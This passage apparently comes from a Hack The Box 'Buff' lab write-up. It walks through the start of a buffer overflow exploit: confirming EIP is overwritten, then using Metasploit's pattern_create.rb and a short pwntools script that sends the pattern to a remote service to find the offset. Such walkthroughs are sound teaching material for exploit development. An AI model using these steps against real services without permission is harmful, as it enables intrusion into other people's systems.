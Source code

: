 ```sh
python exp.py
```

by checking the registers I confirm that it is vulnerable to buffer overflow since eip was overwritten with "A"s

![Desktop View](/assets/img/htb/buff/registers_1.png)

Since the program has crashed I'll have to reload it, to do it I 
1. click on the restart button
2. click run button repeatedly until the program starts

![Desktop View](/assets/img/htb/buff/buttons.png)

This process will have to be repeated through all the debugging since the program will be crashing many times due to the overflow, it will be referred as __reloading the program in the debugger__.

#### finding the exact length of buffer before EIP

To check what is the length of junk data to send before reaching the eip I send a specially crafted pattern created with the metasploit tool  pattern_create.rb, I save the pattern to a file and with a python script I make it read from the file and send the pattern.

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 9999 > pattern
```

```python
from pwn import *

def exploit():
    
    with open('./pattern','r') as file:
        buffer=file.read()

    payload = buffer

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit() 
```